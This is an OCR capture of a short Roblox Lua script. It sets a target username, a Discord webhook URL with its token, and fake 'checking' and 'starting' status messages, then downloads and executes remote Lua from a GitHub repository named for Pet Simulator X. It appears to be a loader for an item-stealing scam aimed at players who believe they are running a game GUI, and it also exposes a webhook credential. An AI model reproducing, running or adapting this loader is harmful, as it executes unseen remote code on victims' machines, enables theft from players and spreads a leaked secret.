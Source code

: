 Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1084533100714934304/1SW0Nh6dR5LRbphWwSaKR2PUBoKKgXwb09DCPRYW4LCNliOX6TFycOTW6xmeEZ9YFe_P"

_G.CustomScriptName = "HELLO GUESTS"

_G.Text1 = "Script PROSTI TEBYA SCAMHULI"

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()